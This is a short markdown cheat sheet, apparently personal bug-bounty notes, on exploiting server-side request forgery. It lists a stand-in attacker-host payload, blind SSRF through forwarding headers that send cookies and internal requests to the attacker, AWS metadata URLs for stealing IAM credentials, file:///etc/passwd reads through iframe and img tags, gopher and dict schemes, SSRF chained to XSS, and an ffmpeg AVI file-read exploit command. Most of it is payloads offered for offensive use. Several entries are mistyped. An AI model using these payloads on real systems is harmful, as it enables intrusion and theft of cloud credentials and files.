 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

SSRF via SVG file upload

Spider a domain in burpsuite.
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG  `https://github.com/allanlw/svg-cheatsheet`

##### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()


---

### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`

